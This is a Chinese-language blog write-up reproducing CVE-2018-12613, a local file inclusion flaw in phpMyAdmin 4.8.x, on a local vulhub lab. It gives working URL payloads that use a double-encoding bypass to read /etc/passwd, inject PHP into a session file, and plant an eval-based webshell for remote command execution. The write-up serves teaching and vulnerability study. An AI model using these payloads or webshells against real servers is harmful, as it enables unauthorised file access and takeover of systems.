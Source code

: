 ```yaml
---
layout:     post             
title:      CVE-2018-12613 漏洞复现
date:       2021-07-14            
author:     suleo                  
head-img:   img/unix-linux.jpg
catalog: true                      
tags:      
   - 漏洞复现
typora-root-url: ../img/cve-2018-12613
---
```


## CVE-2018-12613 本地文件包含漏洞详解

### 前言

phpMyAdmin是phpMyAdmin团队开发的一套免费的、基于Web的MySQL数据库管理工具。该工具能够创建和删除数据库，创建、删除、修改数据库表，执行SQL脚本命令等。 

> 漏洞影响范围 phpmyadmin 4.8.0 & 4.8.1

### 漏洞原理

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码并且执行。

- 文件包含相关函数，代码审计时可关注如下几个函数

~~~
require()          # 函数出现错误的时候，会直接报错并退出程序的执行
require_once()     # 只包含一次
include()          # 在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
include_once()     # 只包含一次
~~~

- 在存在漏洞的phpmyadmin的源代码的index.php中, 就出现了include函数

![image-20230716222403963](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/index_php.jpg)

- 根据上图，我们需要绕过前面几行条件的限制，条件如下

  - target参数不能为空
  - target参数必须为字符串
  - target 参数不能以index开头

  - target 参数不能出现在 $target_blacklist 内

    - 找到target_blacklist定义如下![image-20230716224109344](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/taeget_blacklist.png)

  - 参数必须通过白名单验证

    - Core::checkPageValidity($_REQUEST['target'])，我们查看Core类checkPageValidity方法源代码

    ![image-20230716230259840](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/core_check.png)

    - 白名单部分如下图所示

    ![截屏2023-07-16 23.31.44](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/whiteliat.png)

    - 所以利用二次编码“%253f”可以绕过checkPageValidity()的检查！

  - 构造payload

    > 由于二次解码只是在checkPageValidity()中执行的，在index.php中只做过一次解码

    1. checkPageValidity二次解码后,这个符合白名单验证，问号之前的文件在白名单之内
           

       ```
       /index.php?target=db_sql.php?/../../../../../../../../etc/passwd
       ```

    2. 绕过验证后，index.php一次解码后，如下所示，可以实现任意路径的文件访问
           

       ```
       /index.php?target=db_sql.php%3f/../../../../../../../../etc/passwd
       ```

    3. 最终payload

       ```
       /index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
       ```

### 漏洞验证

**复现环境： /vulhub/phpmyadmin/CVE-2018-12613**

```
# 切换到目标文件夹内,写你自己的路径
cd  /opt/vulhub/phpmyadmin/CVE-2018-12613 

# 拉取并启动容器
docker compose up -d

# 浏览器访问
http://localhost:8080

# 漏洞验证访问,/etc/passwd被读取，说明文件包含漏洞存在
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![截屏2023-07-16 23.13.27](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/etc_passwd.png)

### 漏洞利用

> 现在我们已经可以读取站点本地文件，那我们如何利用本地文件包含漏洞获取权限呢,？我们能写入一个webshell吗？ 咋写呢？
>
> ​	maybe可以试试session, php session文件可以存储会话的一些信息，我们来试试

- **执行 SQL语句 `SELECT '<?php phpinfo(); ?>'**

![image-20230717002336143](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/phpinfo.png)

- **根据session id查看session文件， cat /tmp/sess_06f6516222139397dee258dd594e5018**

![image-20230717002139736](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/session1.png)

- **包含session文件**

```
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_06f6516222139397dee258dd594e5018
```

​		成功包含session文件并执行了phpinfo![截屏2023-07-17 00.40.36](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/session.png)

- **既然可以通过session文件执行代码，那我们是否可以试试写入一句话木马**

```

# 通过sql查询写入一句话木马到session文件
	select "<?php @eval($_GET['s']);?>"
	
# 根据session id访问session文件，测试参数 s 是否能够成功执行命令
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c?s=phpinfo();
```

​		成功执行phpinfo();

![截屏2023-07-17 01.17.45](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/arg_s.png)

- **写webshell**

~~~
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c&s=fputs(fopen(%27x.php%27,%27w%27),%27%3C?php%20@eval($_POST[pass])?%3E%27);
~~~

查看web目录下是否成功写入， cat /var/www/html/x.php, 已成功写入一句话木马

![截屏2023-07-17 01.23.08](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/w_eval.png)

蚁剑连接一句话木马

![截屏2023-07-17 01.25.38](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/test_connect.png)

成功获取shell

![截屏2023-07-17 01.25.17](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/getshell.png)